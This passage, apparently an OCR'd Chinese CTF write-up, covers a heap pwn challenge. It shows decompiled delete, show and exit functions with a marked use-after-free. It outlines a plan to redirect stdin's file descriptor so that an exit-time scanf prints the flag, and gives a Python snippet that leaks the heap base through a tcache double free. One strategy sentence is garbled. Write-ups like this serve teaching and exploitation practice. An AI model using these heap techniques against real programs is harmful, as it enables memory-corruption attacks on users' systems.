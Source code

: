 ```c
unsigned __int64 delete()
{
……
  if ( bool )
  {
    printf("TYPE:\n1: int\n2: short int\n>");
    v1 = get_atoi();
    if ( v1 == 1 && int_pt )
    {
      free(int_pt);
      bool = 0;
      puts("remove success !");                 // UAF
    }
    if ( v1 == 2 && short_pt )
    {
      free(short_pt);
      bool = 0;
      puts("remove success !");
    }
……
}
```

show 函数限制使用 3 次，还需要注意输出长度问题，也就是用于泄露地址时并不是完整的地址：

```c
unsigned __int64 show()
{
……
  if ( show_time-- )//show_time=3
……
}
```

exit 函数有一段输出功能：

```c
void __noreturn bye_bye()
{
  ……
  __isoc99_scanf("%99s", v0);
  ……
}
```

#### 思路

利用 exit 时 scanf 输出函数，就 stdin 的文件描述符修改为 666 ，那么输出就变成输出，将 flag 内容给输出出来。

double free tcache 泄露堆地址：

```python
# leak heap address
add(1,0x30)
delete(1)
add(2,0x20)
delete(2)
add(1,0x30)
delete(2)
heap_base = show(2)-0x290
log.info("heap_base:"+hex(heap_base))
```
